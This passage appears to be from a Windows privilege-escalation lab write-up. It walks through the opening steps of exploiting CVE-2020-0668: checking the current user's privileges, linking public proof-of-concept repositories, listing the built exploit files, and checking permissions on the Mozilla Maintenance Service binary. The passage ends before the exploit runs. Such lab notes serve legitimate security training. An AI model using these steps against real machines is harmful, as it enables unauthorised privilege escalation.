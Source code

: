 ```
Home directory               
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Administrators       
Global Group memberships     *None                 
The command completed successfully.
```

## CVE-2020-0668 Example

1) Checking Current User Privileges

```
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```

2) After Building Solution

https://github.com/RedCursorSecurityConsulting/CVE-2020-0668

https://github.com/bypazs/CVE-2020-0668.exe

```
CVE-2020-0668.exe
CVE-2020-0668.exe.config
CVE-2020-0668.pdb
NtApiDotNet.dll
NtApiDotNet.xml
```

3) Checking Permissions on Binary

```
C:\htb> icacls "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"

C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe NT AUTHORITY\SYSTEM:(I)(F)
                                                                          BUILTIN\Administrators:(I)(F)
                                                                          BUILTIN\Users:(I)(RX)
                                                                          APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                                                          APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)
 
Successfully processed 1 files; Failed processing 0 files
```
